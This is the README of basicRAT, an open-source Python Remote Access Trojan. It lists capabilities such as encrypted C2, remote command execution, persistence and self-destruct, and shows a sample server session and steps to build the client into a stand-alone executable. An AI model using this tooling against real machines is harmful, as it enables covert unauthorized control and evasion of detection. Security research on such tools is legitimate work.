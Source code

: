 # RAT

This is a cross-platform Python 2.7.x Remote Access Trojan (RAT). Currently still a work in progress, and gets hacked on as time allows. See the `binaries/` folder for prebuilt client executables.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform (Windows, Linux, and macOS)
* AES-256 encrypted C2 with D-H exchange
* Accepts connection from multiple clients
* Command execution
* Standard utilities (cat, ls, pwd, unzip, wget)
* System survey
* Self-destruct
* Primitive port scanning
* Client reconnect

## Usage

### Client
```
C:\>basicRAT_client.exe --ip 127.0.0.1 --port 1337 --timeout 30
```
Where `ip` is the basicRAT server IP address, `port` is the server listening port, and `timeout` is the number of seconds the client waits to attempt a reconnect to the server (if disconnected). These are the default values if not specified, you will likely need to supply at least an IP and port if using basicRAT outside of your local system.

### Server
```
$ python basicRAT_server.py --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening for connections on port 1337.

[?] basicRAT> help
Command             | Description
---------------------------------------------------------------------------
cat <file>          | Output a file to the screen.
client <id>         | Connect to a client.
clients             | List connected clients.
execute <command>   | Execute a command on the target.
goodbye             | Exit the server and selfdestruct all clients.
help                | Show this help menu.
kill                | Kill the client connection.
ls                  | List files in the current directory.
persistence         | Apply persistence mechanism.
pwd                 | Get the present working directory.
quit                | Exit the server and keep all clients alive.
scan <ip>           | Scan top 25 TCP ports on a single host.
selfdestruct        | Remove all traces of the RAT from the target system.
survey              | Run a system survey.
unzip <file>        | Unzip a file.
wget <url>          | Download a file from the web.

[?] basicRAT> clients
ID | Client Address
-------------------
 1 | 127.0.0.1

[?] basicRAT> client 1
Client 1 selected.

[1] basicRAT> execute uname -a
Running execute...
Linux sandbox3 4.9.17-c9 #1 SMP Thu Mar 23 01:38:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
execute completed.
```

## Build your own stand-alone executable
If you'd rather not use one the prebuilt binaries, you can easily create your own executable like so:

On Windows you will need:
  * [Python 2.7.x](https://www.python.org/downloads/)
  * [PyInstaller](http://www.pyinstaller.org/)
  * [PyCrypto 2.6 for Python 2.7](http://www.voidspace.org.uk/python/modules.shtml#pycrypto)
  * [PyWin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
  * [pefile](https://github.com/erocarrera/pefile)

Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` from the basicRAT repo folder and it should generate a `dist/` folder that will contain a stand-alone PE (portable executable).

On Linux/macOS you will need:
  * [Python 2.7.x](https://www.python.org/downloads/)
  * PyInstaller & PyCrypto - `$ pip install pyinstaller pycrypto`

Then run something like `pyinstaller --onefile basicRAT_client.py` from the basicRAT repo folder and it should generate a `dist/` folder that will contain a stand-alone ELF/Mach-O executable.

## Contributors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)
* [@reznok](https://github.com/reznok), multiple client connection prototype

## Other open-source Python RATs for Reference
* [nathanlopez/Stitch](https://github.com/nathanlopez/Stitch)
* [n1nj4sec/pupy](https://github.com/n1nj4sec/pupy)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
